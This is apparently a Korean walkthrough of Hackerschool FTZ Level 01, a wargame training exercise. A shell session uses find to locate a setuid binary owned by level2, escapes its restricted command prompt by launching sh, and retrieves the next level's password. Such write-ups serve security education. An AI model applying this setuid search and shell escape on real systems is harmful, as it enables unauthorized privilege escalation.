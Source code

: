 # Hackerschool FTZ Level 01
```
login as: level1
level1@192.168.18.131's password:
[level1@ftz level1]$ pwd
/home/level1
[level1@ftz level1]$ ls -al
total 88
drwxr-xr-x    4 root     level1       4096 Jan 16  2009 .
drwxr-xr-x   34 root     root         4096 Sep 10  2011 ..
-rw-------    1 root     root            1 Jan 15  2010 .bash_history
-rw-r--r--    1 root     root           24 Feb 24  2002 .bash_logout
-rw-rw-r--    1 root     root          224 Feb 24  2002 .bash_profile
-rw-r--r-x    1 root     root          151 Feb 24  2002 .bashrc
-rw-r--r--    1 root     root          400 Feb 24  2002 .cshrc
-rw-r--r--    1 root     root         4742 Feb 24  2002 .emacs
-rw-r--r--    1 root     root          162 Feb 24  2002 .epems
-r--r--r--    1 root     root          319 Feb 24  2002 .gtkrc
-rw-r--r--    1 root     root          100 Feb 24  2002 .gvimrc
-rw-r--r--    1 root     root           47 Apr  4  2000 hint
-rw-r--r--    1 root     root          226 Feb 24  2002 .muttrc
-rw-r--r--    1 root     root          367 Feb 24  2002 .profile
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html
drwxrwxr-x    2 root     level1       4096 Jan 16  2009 tmp
-rw-r--r--    1 root     root            1 May  7  2002 .viminfo
-rw-r--r--    1 root     root         4145 Feb 24  2002 .vimrc
-rw-------    1 root     root          106 Mar  6  2000 .Xauthority
-rw-r--r--    1 root     root          245 Feb 24  2002 .Xdefaults
[level1@ftz level1]$ cat hint


level2 권한에 setuid가 걸린 파일을 찾는다.


[level1@ftz level1]$ find / -perm -4000 -user level2 2>/dev/null
/bin/ExecuteMe
[level1@ftz level1]$ /bin/ExecuteMe



                레벨2의 권한으로 당신이 원하는 명령어를
                한가지 실행시켜 드리겠습니다.
                (단, my-pass 와 chmod는 제외)

                어떤 명령을 실행시키겠습니까?


                [level2@ftz level2]$ sh


sh-2.05b$ my-pass

Level2 Password is "hacker or cracker".

sh-2.05b$
```
처음 접속하면 `/home/level1` 경로에 로그인된다.

`find` 명령을 통해
- `/` 경로에서 
- `-perm -4000` 옵션을 통해 Set UID 권한을 가지고 있고
- `-user level2` 옵션을 통해 level2 의 유저가 가지고 있는 파일을
- `2>/dev/null` 으로 오류를 출력하지 않으면서

찾습니다.

그러면 `/bin/ExecuteMe` 파일이 나오는데, 실행시키면 간이 쉘이 뜨는데, FTZ 에서 비밀번호를 볼 수 있는 `my-pass` 명령어와 파일의 권한을 변경하는 `chmod` 명령어를 입력할 수 없다고 한다.  
그렇다면 `sh` 를 입력하여 실제 쉘을 띄운 뒤, `my-pass` 를 입력하면 Level2 의 비밀번호를 얻을 수 있다.